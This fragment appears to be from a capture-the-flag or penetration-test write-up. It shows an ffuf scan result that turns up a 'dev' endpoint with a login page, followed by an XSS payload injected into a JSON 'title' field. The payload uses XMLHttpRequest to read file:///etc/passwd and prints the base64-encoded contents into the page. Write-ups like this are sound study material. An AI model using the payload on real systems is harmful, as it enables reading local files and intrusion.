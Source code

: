 FFUF scan:
```
dev                     [Status: 302, Size: 28, Words: 4, Lines: 1, Duration: 1061ms]
```

Leads to login page



Got XSS:
```
"title":"<script>x=new XMLHttpRequest;x.onload=function(){document.write(btoa(this.responseText))};x.open('GET','file:///etc/passwd');x.send();</script>",
```